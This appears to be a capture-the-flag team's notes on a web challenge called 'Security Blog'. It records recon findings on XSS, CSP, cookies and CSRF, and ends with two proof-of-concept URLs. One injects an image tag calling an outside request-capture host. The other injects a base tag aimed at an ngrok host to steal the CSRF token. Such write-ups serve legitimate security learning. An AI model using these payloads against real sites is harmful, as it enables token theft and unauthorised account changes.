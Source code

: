 # Security Blog
We suspect that this cybersecurity blog is hiding some information related to
a 0-day vulnerability. We need you to infiltrate it, and get access to the VIP
area to recover its secrets. Good luck !

http://remote1.thcon.party:10701

## Features
- Registration Flow (Inscription)
- Login Flow (Inscription)
- Access Control (User & VIP)
- Commenting
- Submit URL for Bounty (Admin Views)
- Add VIP Member

## Notes

- /add_vip?message=XSS is injectable but it has a very strict CSP
  ```
  connect-src 'none'; font-src 'none'; frame-src 'none'; img-src * data:;
  manifest-src 'none'; media-src 'none'; object-src 'none'; script-src 'none';
  worker-src 'none'; style-src 'self'; frame-ancestors 'none';
  block-all-mixed-content;
  ```
- Auth cookie doesn't have SameSite set (default lax), but is HttpOnly
  This is an express cookie, any modification seems to break auth
  ```
  s:MeeJVf9aQkyY7zuL4GckyBVL_KqqvGpq.FSLd4Y9lOlQ4VGjExp6BdF9HGR77ilEVbvTemtIA4eI
  ```
- Adding a comment puts it in query param but not on page, blind xss?
- Can check for the existence of a user with the registration form, returns
  error `User alredy exists` when it does.
- POST /add_vip is only endpoint w/ CSRF
- No CORS headers indicate we _require_ an XSS to hit the endpoints
- /vip has different CSP set, just `default-src 'none'`

### Questions
- How does VIP status work?
- What other tags could we use to make the admin do something, meta, base?
    Base tag would change where the form POST goes to which would allow us to
    steal the csrf


## Possible Attacks
- Add self as VIP by making admin go to add_vip page with XSS
- Send manual exploit page with XSS, use it to do _sOmEtHiNg_, potentially
  iframe or open the VIP page somehow


## PoCs
*Image Injection*: makes remote request (no info with it tho)
http://remote1.thcon.party:10701/add_vip?message=<img+src%3d"https%3a//enf0fcnvqg15n.x.pipedream.net/img"+/>

*CSRF Exfill*: requires form to be submitted somehow
http://remote1.thcon.party:10701/add_vip?message=<base+href="https://d5beba4f0eb4.ngrok.io/">
